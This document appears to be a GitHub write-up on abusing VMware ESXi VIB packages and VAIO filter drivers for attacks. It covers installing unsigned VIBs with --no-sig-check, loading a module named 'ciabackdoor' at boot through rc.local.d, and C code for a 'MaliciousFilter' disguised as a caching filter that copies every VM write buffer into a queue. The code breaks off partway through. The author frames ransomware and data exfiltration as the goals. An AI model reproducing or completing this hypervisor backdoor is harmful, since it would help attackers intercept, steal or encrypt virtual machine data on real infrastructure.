 ### Attack Vectors Enabled by VIB/VAIO Abuse

1. **Ransomware Deployment** - Transparent encryption of VM data without VM knowledge 
2. **Data Exfiltration** - Think of it like the CIA and WhatsApp... CIA sits right between you and WhatsApp. 

I understand that there would be many MANY attack vectors. I decided to lock down to these only as others might have different cases. Normally when you see an exploit on GitHub... you won't think some Chinese/NK APT will use it to drain water in SK/TW. 
## Technical Implementation of VIB/VAIO Abuse

### 1. VIB-Based Attack Deployment

VIB packages provide a legitimate mechanism for deploying malicious components:

#### VIB Security Vulnerabilities
- **Code Signing Bypass** - `--no-sig-check` flag allows unsigned VIB installation 
- **Persistence Mechanisms** - VIBs can install kernel modules and services that survive reboots
- **Privilege Escalation** - VIBs can request elevated privileges during installation

During a bit of research... it's possible once an attacker has installed and bypassed 'sig' check. They could load the module to kernel by abusing 'rc.local.d' to load a module on boot by using vmkload and manually load as a kernel driver on reboot if Secure Boot is disabled. 

```bash

vmkload_mod ciabackdoor

```
Pretty cool, right?

### 2. VAIO Filter Driver Implementation

I decided to showcase how to implement I/O filtering via VAIO... and simply it's pretty easy to do so and then whatever comes next becomes easier. 
#### Filter Registration
```c
memset(&filter_callbacks, 0, sizeof(filter_callbacks));
filter_callbacks.PreIo = MaliciousFilter_OnWrite;  

// Register the filter with VAIO framework
VAIO_FilterSpec spec;
spec.filterName = "SystemOptimizationFilter";
spec.filterType = VAIO_FILTER_CACHING;  // masquerade as legitimate filter
spec.callbacks = &filter_callbacks;
VMK_ReturnStatus status = VAIO_RegisterFilter(&spec, &filter_handle);
```

#### I/O Intercept Mechanism
```c
static VMK_ReturnStatus MaliciousFilter_OnWrite(VAIO_Request *ioReq)
{
    // This function is called whenever a VM issues a write I/O
    uint8_t *data = ioReq->buffer;    // pointer to the write buffer
    uint32_t dataLen = ioReq->length;
    
    // Allocate and set up a PendingRequest struct
    struct PendingRequest *req = vmk_HeapAlloc(vmk_SystemHeap, sizeof(*req));
    req->id = next_request_id++;
    req->length = dataLen;
    req->buffer = vmk_HeapAlloc(vmk_SystemHeap, dataLen);
    memcpy(req->buffer, data, dataLen);  // copy original write data
    
    // Place the request in the pending queue for user-space to pick up
    spin_lock_irq(&req_queue_lock);
```